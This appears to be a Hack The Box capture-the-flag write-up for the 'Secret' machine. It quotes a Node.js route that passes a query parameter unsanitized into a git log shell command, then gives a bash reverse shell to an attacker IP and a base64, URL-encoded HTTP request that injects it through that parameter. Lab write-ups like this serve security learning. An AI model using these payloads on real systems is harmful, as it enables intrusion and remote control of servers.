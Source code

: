 ````js
router.get('/logs', verifytoken, (req, res) => {

//query parameter file: /logs?file=somefilename
const file = req.query.file;

const userinfo = { name: req.user }

const name = userinfo.name.name;

//if you are user theadmin then...
if (name == 'theadmin'){

//--oneline: alias for git log --pretty=oneline --abbrev-commit", and displays the "short sha" and "short description"

//git log command on parameter file
const getLogs = `git log --oneline ${file}`;

//execute git log command on parameter file
exec(getLogs, (err , output) =>{

`````


### /logs?file=hello
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Secret/screenshots/burp%20file%20parameter.png)

### parameter file command execution
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Secret/screenshots/burp%20file%20parameter%20command%20execution.png)

### shell as user dasith
````bash
bash -i >& /dev/tcp/10.10.14.11/1111 0>&1

`````

### convert payload to base64 and url encode
````
GET /api/logs?file=hello;echo+-n+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMTExIDA%2bJjE%3d+|+base64+-d+|+bash HTTP/1.1

`````

### reverse shell as dasith
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Secret/screenshots/burp%20reverse%20shell.png)

### user.txt
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Secret/screenshots/user.txt.png)

